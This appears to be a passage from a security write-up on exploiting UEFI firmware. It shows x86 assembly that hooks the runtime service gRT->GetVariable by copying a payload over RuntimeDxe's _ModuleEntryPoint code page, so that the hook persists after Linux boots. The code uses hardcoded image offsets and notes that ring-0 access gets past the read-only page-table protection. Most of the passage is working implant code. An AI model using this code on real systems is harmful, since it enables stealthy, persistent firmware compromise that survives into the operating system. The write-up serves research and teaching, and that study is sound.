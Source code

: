 I'd rather not go though DXE services to patch the memory attributes table, so
instead, I chose to patch an a real runtime code page; maybe RuntimeDxe's
`_ModuleEntryPoint`, since that isn't used after it runs the first time (Note:
`SetVirtualAddressMap` is chosen for offset because `GetVariable` is in a
different driver, VariableSmmRuntimeDxe, not RuntimeDxe, although I could
adapt offsets for VariableSmmRuntimeDxe instead):

```asm
LuaEfi_off_gBS = 0x34638
LuaEfi_off_gRT = 0x34558
LuaEfi_off_retaddr = 0x1cf13

RuntimeDxe_off_ModuleEntryPoint = 0x2465
RuntimeDxe_off_RuntimeDriverSetVirtualAddressMap = 0x1e66

RT_off_SetVirtualAddressMap = 56
RT_off_GetVariable = 72

_start:
  mov (%rsp),%rax
  push %rsi
  push %rdi
  push %r12
  push %r13

  # R12 = gRT, R13 = gBS
  mov (LuaEfi_off_gRT-LuaEfi_off_retaddr)(%rax),%r12
  mov (LuaEfi_off_gBS-LuaEfi_off_retaddr)(%rax),%r13

  # orig_getvariable = gRT->GetVariable
  mov RT_off_GetVariable(%r12),%rax
  mov %rax,orig_getvariable(%rip)

  # Allocating EfiRuntimeServicesCode pages become NX after Linux boot,
  # due to us not simulating ProtectUefiImageCommon and updating memory
  # attributes table. So, to make life easier, let's just infect RuntimeDxe...
  # R10 = RuntimeDxe._ModuleEntryPoint
  mov RT_off_SetVirtualAddressMap(%r12),%r10
  lea (RuntimeDxe_off_ModuleEntryPoint-RuntimeDxe_off_RuntimeDriverSetVirtualAddressMap)(%r10),%r10

  # gRT->GetVariable = R10
  mov %r10,RT_off_GetVariable(%r12)

  # memcpy(R10, payload, payload_end - payload)
  lea payload(%rip),%rsi
  mov %r10,%rdi
  mov $(payload_end - payload),%rcx
  rep movsb
```

And... oh `ProtectUefiImage` also protects the page tables to make those code
pages read-only... fear not, we are ring 0!
